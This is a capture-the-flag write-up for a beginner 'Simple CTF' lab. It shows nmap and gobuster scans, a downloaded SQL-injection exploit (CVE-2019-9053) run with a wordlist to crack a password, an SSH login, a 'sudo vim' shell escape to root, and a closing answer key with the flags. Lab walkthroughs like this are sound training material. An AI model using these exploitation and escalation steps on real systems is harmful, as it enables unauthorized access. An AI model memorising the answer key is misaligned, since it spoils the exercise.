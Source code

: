 # Simple CTF

![SimpleCTF](./images/SimpleCTF.png)

The room is listed as an easy room, and covers a lot of different tools and aspects of security, which makes it a great room to complete for beginners.
An overview of what we’ll be using is listed here:  

* Basic linux commands
* Nmap scan
* Gobuster
* Searchsploit

## Set up environment IP as target IP_MACHINE

```
export IP=10.10.179.1
```  

![IP](./images/IP.png)


## Enumeration and Scanning

* Check the IP from browser 

	![website](./images/website.png)

* Scan open port with nmap

	```
	nmap -sV -sC $IP | tee nmap-scan.txt
	```  

	File scan resulted [here](./files/nmap-scan.txt)  

	![nmap-scan](./images/nmap-scan.png)

* Scan directory with gobuster
	
	* Default directory scan
		
		```
		gobuster dir -u $IP -w /usr/share/wordlists/dirb/common.txt | tee gobuster-default.txt
		```  

		File scan resulted [here](./files/gobuster-default.txt)  

		![gobuster-default](./images/gobuster-default.png)

	* Sub directory scan
		
		```
		gobuster dir -u $IP/simple -w /usr/share/wordlists/dirb/common.txt | tee gobuster-simple.txt
		```  
		
		File scan resulted [here](./files/gobuster-simple.txt)  

		![gobuster-simple](./images/gobuster-simple.png)

* Try to open website

	* Check the sub directory
		
		![website-simple](./images/website-simple.png)

	* Check website version
	
		![website-version](./images/website-version.png)

	* Check website posted
	
		![website-posted](./images/website-posted.png)


* Find Exploit from DB

	* Search exploit 
		
		```
		searchsploit CMS made simple 2.2.8
		```  

		![exploit-search](./images/exploit-search.png)

	* Download exploit file
		
		```
		searchsploit -m php/webapps/46635.py
		```  

		![exploit-download](./images/exploit-download.png)

	* Check CVE number 
		
		```
		nano 46635.py
		```  

		![cve-number](./images/cve-number.png)


## Gaining Acecss & Exploitation

* Run the exploit file with python2

	```
	python2 46635.py -u http://$IP/simple --crack -w /usr/share/wordlists/rockyou.txt
	```  

	![script-run](./images/script-run.png)
	
	Resulted  

	![exploit-pass](./images/exploit-pass.png)

* Login to target machine

	```
	ssh -p 2222 mitch@$IP
	```

	![ssh-login](./images/ssh-login.png)

* Get the user.txt

	![user-txt](./images/user-txt.png)

* Get root access

	* Check privilege escalation with sudo
	
		```
		sudo -l
		```  

		![sudo-l](./images/sudo-l.png)

	* Run sudo to get root access
	
		```
		sudo vim -c ':!/bin/sh'
		```  

		![home-user](./images/home-user.png)

	* Get `root.txt`
	
		![root-txt](./images/root-txt.png)

## Questions and Answers

* How many services are running under port 1000?

	`2`
	
* What is running on the higher port?

	`ssh`
	
* What's the CVE you're using against the application? 

	`CVE-2019-9053`
	
* To what kind of vulnerability is the application vulnerable?

	`SQLi`

* What's the password?

	`secret`

* Where can you login with the details obtained?

	`ssh`
	
* What's the user flag?

	`G00d j0b, keep up!`
		
* Is there any other user in the home directory? What's its name?

	`sunbath`
	
* What can you leverage to spawn a privileged shell?

	`vim`
	
* What's the root flag?

	`W3ll d0n3. You made it!`
